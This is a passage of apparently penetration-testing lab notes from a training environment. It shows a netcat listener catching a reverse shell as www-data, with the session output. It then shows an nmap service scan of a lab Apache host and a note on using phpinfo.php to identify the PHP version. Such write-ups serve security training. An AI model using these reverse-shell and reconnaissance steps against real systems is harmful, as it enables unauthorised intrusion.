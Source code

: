 

**setup netcat listener**

```bash
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.4.26.168.
Ncat: Connection from 10.4.26.168:43348.
Linux d1d6a9361621 5.4.0-1048-aws #50-Ubuntu SMP Mon May 3 21:44:17 UTC 2021 x86_64 GNU/Linux
 12:04:29 up 4 min,  1 user,  load average: 0.01, 0.11, 0.07
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: no job control in this shell
sh-3.2$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```



---

#### Targeting PHP    



```bash
root@attackdefense:~# nmap 10.4.26.204 -sV -p80
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-13 22:43 IST
Nmap scan report for demo.ine.local (10.4.26.204)
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
```



**Enumerating PHP information**

Now that we have identified that **Apache** is running on port 80, we can access the web server in a browser by visiting the IP address of the target system.

We can identify the version of PHP running on the web server by accessing the **phpinfo.php** file in a browser as shown in the following screenshot.

![2](./assets/8.png)
